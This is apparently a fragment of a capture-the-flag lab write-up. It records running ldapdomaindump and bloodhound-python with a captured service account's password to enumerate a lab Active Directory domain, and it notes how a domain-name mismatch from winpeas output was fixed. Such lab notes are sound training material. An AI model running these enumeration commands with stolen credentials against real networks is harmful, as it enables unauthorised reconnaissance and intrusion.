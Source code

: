 
```
ldapdomaindump ldaps://10.10.10.175 -u 'EGOTISTICALBANK\svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

```
bloodhound-python -d EGOTISTICALBANK.local -u svc_loanmgr -p 'Moneymakestheworldgoround!' -ns 10.10.10.175 -c all
```

It seems that the problem lies b/w the domain name.
![[Pasted image 20240502031931.png]]


Remember that i have seen something in winpeas that stand out
![[Pasted image 20240502031857.png]]

```
USERDOMAIN: EGOTISTICALBANK
USERDNSDOMAIN: EGOTISTICAL-BANK.LOCAL
```


So the command successfully run in the end
```
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u svc_loanmgr -p 'Moneymakestheworldgoround!' -ns 10.10.10.175 -c all
```

